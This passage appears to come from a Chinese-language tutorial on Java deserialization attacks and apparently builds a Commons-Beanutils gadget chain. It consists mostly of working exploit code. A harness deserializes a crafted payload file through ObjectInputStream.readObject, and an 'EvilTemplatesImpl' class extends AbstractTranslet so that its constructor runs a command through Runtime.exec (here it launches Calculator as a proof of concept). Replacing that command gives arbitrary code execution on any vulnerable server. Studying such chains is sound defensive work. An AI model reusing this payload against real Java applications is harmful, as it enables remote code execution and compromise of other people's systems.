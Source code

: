 ```java
        // 序列化, 保存为文件
//        serialize(queue);
        // 反序列化，从文件中读取上面一步序列化的数据
        unserialize("ser_CB183.bin");

    }

    public static void serialize(Object queue) throws IOException {
        FileOutputStream fileOutputStream = new FileOutputStream("./ser_CB183.bin");
        ObjectOutputStream outputStream = new ObjectOutputStream(fileOutputStream);
        outputStream.writeObject(queue);
        outputStream.close();
        fileOutputStream.close();
    }

    public static void unserialize(String args) throws IOException, ClassNotFoundException {
        FileInputStream fileInputStream = new FileInputStream(args);
        ObjectInputStream ois = new ObjectInputStream(fileInputStream);

        ois.readObject();
    }
}
```

📒 evil.EvilTemplatesImpl.java

```java
package evil;

import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

public class EvilTemplatesImpl extends AbstractTranslet {
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {}

    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {}

    static {
        System.out.println("Hello TemplatesImpl static block");
    }

    public static void main(String[] args) {

        System.out.println("Hello TemplatesImpl main method");
    }
    public EvilTemplatesImpl() throws Exception {
        super();
        System.out.println("Hello TemplatesImpl Construction method");
        Runtime.getRuntime().exec("/System/Applications/Calculator.app/Contents/MacOS/Calculator");
    }

}
```
